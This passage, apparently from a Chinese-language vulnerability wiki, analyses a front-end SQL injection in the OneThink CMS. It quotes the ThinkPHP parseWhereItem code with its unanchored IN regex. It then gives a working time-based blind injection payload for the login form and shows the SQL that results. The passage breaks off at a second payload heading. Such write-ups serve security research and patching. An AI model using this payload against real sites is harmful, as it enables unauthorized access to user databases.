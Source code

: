 这个`parseSql`里面，起到注入作用，最重要的就是`parseWhere`方法

![4.png](/Users/aresx/Documents/VulWiki/.resource/OneThink前台注入/media/rId27.png)

跟进`parseWhere`方法，425行将`$where`拆成``` $``key ```和``` $``val ```，在后面几个地方传入`parseWhereItem()`，

![5.png](/Users/aresx/Documents/VulWiki/.resource/OneThink前台注入/media/rId28.png)

parseKey是一个取值方法，没实际意义

![6.png](/Users/aresx/Documents/VulWiki/.resource/OneThink前台注入/media/rId29.png)

下面就是注入发生的地方了，好好分析一下这个`parseWhereItem()`函数

![7.png](/Users/aresx/Documents/VulWiki/.resource/OneThink前台注入/media/rId30.png)

首先，`$val`来源于上面的`$where`变量，是咱们可控的；其次，这里正则判断有大问题，没有使用`^`
`$`来定界，导致`xxINxx`这种形式也能通过判断，`val[0]`在`IN`后面实际可构造出任意内容，后续进行了拼接，导致sql注入。

    # \OneThink\ThinkPHP\Library\Think\Db.class.php #469L
    protected function parseWhereItem($key,$val) {
         $whereStr = '';
         elseif(preg_match('/IN/i',$val[0])){ // IN 运算
         if(isset($val[2]) && 'exp'==$val[2]) {
             $whereStr .= $key.' '.strtoupper($val[0]).' '.$val[1];
         }else{
             if(is_string($val[1])) {
                  $val[1] =  explode(',',$val[1]);
             }
             $zone      =   implode(',',$this->parseValue($val[1]));
             $whereStr .= $key.' '.strtoupper($val[0]).' ('.$zone.')';
         }
         }elseif(preg_match('/BETWEEN/i',$val[0])){ // BETWEEN运算
             $data = is_string($val[1])? explode(',',$val[1]):$val[1];
             $whereStr .=  ' ('.$key.' '.strtoupper($val[0]).' '.$this->parseValue($data[0]).' AND '.$this->parseValue($data[1]).' )';
         }

那么确定存在注入问题，这里咱们看看前台登录地址处，具体怎么注入

### 漏洞复现

**payload1-in注入**

    username[]=in ('')) and (select 1 from (select sleep(4))x)--+-&password=2&verify=0x401

![8.png](/Users/aresx/Documents/VulWiki/.resource/OneThink前台注入/media/rId32.png)实际执行SQL语句

    SELECT * FROM `onethink_ucenter_member` WHERE ( `username` 
    IN (''))  AND (SELECT 1 FROM (SELECT SLEEP(4))X)-- - () ) LIMIT 1

**payload2-exp注入**

